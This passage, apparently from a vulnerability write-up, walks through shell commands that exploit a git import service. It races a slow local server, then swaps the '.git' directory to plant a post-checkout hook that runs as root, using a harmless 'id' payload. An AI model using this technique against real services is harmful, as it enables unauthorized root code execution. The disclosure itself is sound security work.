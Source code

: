 We run the server and give it some time to start up.

```sh
git update-server-info
cd .git
PORT=9988 /opt/nvm/versions/node/v10/bin/node ../../delay.js &
server_pid=$!
sleep 5
```

We ask the service to import our repository.

```sh
cd ../..
curl -v -H 'Content-Type: application/json' -d '{"repoUrl": "http://localhost:9988/"}' http://localhost:1083/git/import &
command_pid=$!
```

Setting up the `.git` directory is relatively fast.
Git will then need to transfer at least a ref, a commit, and a file.
So I put in a `sleep` for some time that should put us kind of in the middle of waiting for a request to our intentionally slow server.

```sh
sleep 1.5
```

Now, welcome to the "sneaky area."
Git has created a `.git` directory, and it will later check out a branch.
We can add whatever hooks we want during this time.

We can't do it by adding hook scripts in place, because Git running as root has created the `.git` directory to be owned by root.
But because we own the parent directory, we can replace the `.git` directory with an entirely different one.
We create that new one, based on the real one.

```sh
# vvv sneaky area
cp -r /app/.git new.git
cat >new.git/hooks/post-checkout <<'EOF'
id >/tmp/hi
EOF
chmod +x new.git/hooks/post-checkout
```

![](/assets/2021/glitch-git-import-swap.jpg)

```sh
mv /app/.git /app/old.git
cp -r new.git /app/.git
# ^^^ sneaky area
```

That last `cp -r` there copies instead of using a faster rename because `/tmp/new.git` is on a different filesystem.
